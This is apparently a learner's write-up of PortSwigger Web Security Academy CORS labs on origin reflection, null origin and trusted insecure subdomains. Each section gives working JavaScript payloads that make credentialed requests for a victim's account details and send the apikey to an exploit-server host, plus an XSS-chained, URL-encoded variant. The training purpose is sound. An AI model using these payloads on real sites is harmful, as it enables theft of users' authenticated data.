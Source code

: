 # CORS

- https://portswigger.net/web-security/cors
- https://portswigger.net/web-security/cors/same-origin-policy
- https://portswigger.net/web-security/cors/access-control-allow-origin

## CORS vulnerability with basic origin reflection

When `Origin` header is added, it is being reflected to `ACAO` header either way. Accessing the response is acceptable. Only thing is to specify including credentials (cookies).

Deliver to victim:

```
<script>
const tmp = async () => {
    var r = await fetch("https://0a5300a704e0f23c82a3470c004d003f.web-security-academy.net/accountDetails", {credentials: "include"}); 
    var j = await r.json(); 
    fetch("https://exploit-0a6b001f047ff2d5823d469b01b8001c.exploit-server.net/exploit?q=" + j.apikey)
}
tmp()
</script>
```

Above request add `Origin` header automatically, which is reflected into `ACAO` header.

From what I assume, if there is no `Access-Control-Allow-Origin` in the response, results of it could not be access from the js. So here making request with `mode: "no-cors"`, makes it not append `Origin` header, which prevent it from being reflected into `ACAO`, which stops js execution

Solution via portwigger:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

## CORS vulnerability with trusted null origin

Playing around with `GET /accountDetails` request:
 - Not specifing the `Origin` header, respond without `ACAO` header
 - Specifing `https://0ab900a703040b268435609a00610045.web-security-academy.net` as `Origin` reflects it in `ACAO`
 - Specifing `Test` as `Origin` respond without `ACAO` header
 - Specifing `null` as `Origin` reflects it in `ACAO`

So triggering the request with `Origin: null` will allow us to access the data.

Including our script in this `iframe` will cause the origin to be `null`. Deliver this to the victim:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
const tmp = async () => {
    var r = await fetch('https://0ab900a703040b268435609a00610045.web-security-academy.net/accountDetails', {credentials: 'include'})
    var j = await r.json()
    fetch('https://exploit-0a650065038d0bee84425f1301cb00c5.exploit-server.net/exploit?q=' + j.apikey)
}
tmp()
</script>"></iframe>
```

Alternative Portswigger solution:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

## CORS vulnerability with trusted insecure protocols

Check stock functionality works in `stock` subdomain. `GET /` request accept two parameters and of them is being reflected into the page without encoding, making it vulnerable to XSS. POC:

```
https://stock.0aca0019034db25a82e62aed000c00f6.web-security-academy.net/?productId=<script>alert(1)</script>&storeId=1
```

Checking `GET /accountDetails` at main domain: providing `Origin` header set to `https://stock.0aca0019034db25a82e62aed000c00f6.web-security-academy.net` respond with reflected `ACAO` header. Other values does not get reflected.

Additionally the servers responds with `AC-With-Credentials: true`, so it makes the attack possible, because the cookies with be sent with the requests.

Script that gets the cookie and sends it to the Explot Server at stock subdomain when passed as `productId`:

```
<script>
const tmp = async () => {
    var r = await fetch("https://0aca0019034db25a82e62aed000c00f6.web-security-academy.net/accountDetails", {credentials: "include"});
    var j = await r.json();
    document.location = ("https://exploit-0a27009303c9b21f82892917011a009d.exploit-server.net/log?q=" + j.apikey);
};
tmp();
</script>
```

Deliver to victim and read the apikey from the Explot Server Access logs:

```
<script>
document.location = 'https://stock.0aca0019034db25a82e62aed000c00f6.web-security-academy.net/?productId=3%3Cscript%3E%20const%20tmp%20=%20async%20()%20=%3E%20{%20var%20r%20=%20await%20fetch(%22https://0aca0019034db25a82e62aed000c00f6.web-security-academy.net/accountDetails%22,%20{credentials:%20%22include%22});%20var%20j%20=%20await%20r.json();%20document.location%20=%20(%22https://exploit-0a27009303c9b21f82892917011a009d.exploit-server.net/log?q=%22%20%2b%20j.apikey);%20};%20tmp();%20%3C/script%3E&storeId=1'
</script>
```

For some reason my solution do not work. Tests in my browser were successfull, but delivering the explot to the victim did not work. Doing it like solution suggested:

```
<script>
    document.location="http://stock.0aca0019034db25a82e62aed000c00f6.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0aca0019034db25a82e62aed000c00f6.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a27009303c9b21f82892917011a009d.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
